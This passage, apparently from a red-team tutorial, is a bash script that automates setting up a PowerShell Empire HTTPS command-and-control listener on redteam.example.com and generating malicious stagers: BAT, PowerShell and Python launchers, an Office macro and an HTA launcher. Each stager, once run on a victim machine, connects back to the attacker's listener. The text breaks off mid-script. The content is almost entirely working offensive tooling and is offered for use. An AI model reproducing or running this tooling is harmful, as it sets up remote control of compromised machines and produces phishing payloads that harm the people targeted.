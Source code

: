 ### Empire Automation Script

This script automates setting up an Empire listener and generating various stagers:

```bash
#!/bin/bash
# empire_automation.sh - Automate Empire listener and stager setup

# Configuration
EMPIRE_PATH="/opt/Empire"
LISTENER_NAME="automated_https"
LISTENER_PORT="443"
LISTENER_HOST="https://redteam.example.com"
CERT_PATH="/etc/letsencrypt/live/redteam.example.com/fullchain.pem"
KEY_PATH="/etc/letsencrypt/live/redteam.example.com/privkey.pem"
OUTPUT_DIR="empire_payloads"

# Combine cert and key for Empire
cat "$CERT_PATH" "$KEY_PATH" > /tmp/empire_cert.pem

# Create output directory
mkdir -p "$OUTPUT_DIR"

# Create Empire resource script for listener setup
cat > "/tmp/listener_setup.rc" << EOF
listeners
uselistener http
set Name $LISTENER_NAME
set Host $LISTENER_HOST
set Port $LISTENER_PORT
set CertPath /tmp/empire_cert.pem
execute
back
EOF

# Create Empire resource script for stager generation
cat > "/tmp/stagers_setup.rc" << EOF
# Windows BAT Launcher
usestager windows/launcher_bat
set Listener $LISTENER_NAME
set OutFile $OUTPUT_DIR/empire_launcher.bat
generate

# PowerShell Launcher
usestager windows/launcher_ps1
set Listener $LISTENER_NAME
set OutFile $OUTPUT_DIR/empire_launcher.ps1
generate

# Python Launcher (for Linux targets)
usestager multi/launcher
set Listener $LISTENER_NAME
set OutFile $OUTPUT_DIR/empire_launcher.py
set Language python
generate

# Office Macro
usestager windows/macro
set Listener $LISTENER_NAME
set OutFile $OUTPUT_DIR/empire_macro.txt
generate

# HTA Launcher
usestager windows/launcher_hta
```